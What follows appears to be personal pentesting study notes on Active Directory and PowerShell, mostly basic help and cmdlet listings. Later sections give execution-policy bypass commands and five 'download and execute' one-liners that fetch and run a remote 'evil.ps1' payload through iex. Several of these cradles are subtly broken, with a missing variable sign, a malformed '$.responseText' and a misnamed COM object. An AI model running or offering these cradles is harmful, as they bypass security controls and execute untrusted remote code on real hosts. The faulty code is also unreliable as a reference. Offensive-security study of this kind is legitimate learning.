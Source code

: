 ### Active Directory
![[Pasted image 20210705173121.png]]
![[Pasted image 20210705173153.png]]
**Active Directory** (**AD**) is a directory service developed by Microsoft for Windows domain networks. It is included in most Windows Server operating system as a set of processes and services. Initially, Active Directory was used only for centralized domain management. However, Active Directory eventually became an umbrella title for a broad range of directory-based identity-related services.

![[Pasted image 20210705173305.png]]
![[Pasted image 20210705173352.png]]

### Powershell

![[Pasted image 20210705173602.png]]

![[Pasted image 20210705173752.png]]

```powershell
# Lists everything about help topics
Get-Help *

# Lists every which consits the word process
Get-Help process

# Update the help systems (v3+)
Update-Help
```

![[Pasted image 20210705173807.png]]

```powershell
# Lists full help about a topic (Get-Item cmdlet in this case)
Get-Help Get-Item -Full

# Lists examples how to run a cmdlet (Get-Item cmdlet in this case)
Get-Help Get-Item -Examples
```

### Poweshell Cmdlets
![[Pasted image 20210705173822.png]]

![[Pasted image 20210705173846.png]]
```powershell
# Use the below commands for listing all cmdlets
Get-Command -CommandType cmdlet

# List processes in the system
Get-Process
```

##### Bypassing execution policy
![[Pasted image 20210705173957.png]]
```powershell
powershell -ExecutionPolicy bypass

powershell -c <cmd>

powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"
```

![[Pasted image 20210705174124.png]]
```powershell
# A module can be imported as
Import-Module <modulepath>

# All the command in the module can be listed with
Get-Command -Module <modulename>
```

### Download and execute
![[Pasted image 20210705174151.png]]
```powershell
# Method 1
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

# Method 2
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://webserver/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex response

# Method 3 PSv3 onwards
iex (iwr 'http://webserver/evil.ps1')

# Method 4
$h=New-Object -ComObject Msxml12.XMLHTTP;$h.open('GET','http://webserver/evil.ps1',$false);$h.send();iex $.responseText

# Method 5
$wr = [System.NET.WebRequest]::Create("http://webserver/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```